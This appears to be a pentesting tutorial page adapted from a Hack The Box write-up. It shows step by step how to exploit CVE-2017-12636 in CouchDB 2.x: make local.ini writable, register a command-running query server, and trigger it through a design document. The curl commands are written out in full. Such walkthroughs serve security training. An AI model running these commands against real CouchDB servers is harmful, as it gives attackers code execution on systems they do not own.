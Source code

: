### **Exploring CVE-2017-12636 with Write Permissions on local.ini**

Example [from here](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

A vulnerability known as CVE-2017-12636 was explored, which enables code execution via the CouchDB process, although specific configurations may prevent its exploitation. Despite numerous Proof of Concept (POC) references available online, adjustments are necessary to exploit the vulnerability on CouchDB version 2, differing from the commonly targeted version 1.x. The initial steps involve verifying the CouchDB version and confirming the absence of the expected query servers path:

```bash
curl http://localhost:5984
curl http://0xdf:df@localhost:5984/_config/query_servers/
```

To accommodate CouchDB version 2.0, a new path is utilized:

```bash
curl 'http://0xdf:df@localhost:5984/_membership'
curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
```

Attempts to add and invoke a new query server were met with permission-related errors, as indicated by the following output:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

Further investigation revealed permission issues with the `local.ini` file, which was not writable. By modifying the file permissions with root or homer access, it became possible to proceed:

```bash
cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
chmod 666 /home/homer/etc/local.ini
```

Subsequent attempts to add the query server succeeded, as demonstrated by the lack of error messages in the response. The successful modification of the `local.ini` file was confirmed through file comparison:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
```

The process continued with the creation of a database and a document, followed by an attempt to execute code via a custom view mapping to the newly added query server:

```bash
curl -X PUT 'http://0xdf:df@localhost:5984/df'
curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}'
```

A [**summary**](https://github.com/carlospolop/hacktricks/pull/116/commits/e505cc2b557610ef5cce09df6a14b10caf8f75a0) with an alternative payload provides further insights into exploiting CVE-2017-12636 under specific conditions. **Useful resources** for exploiting this vulnerability include:
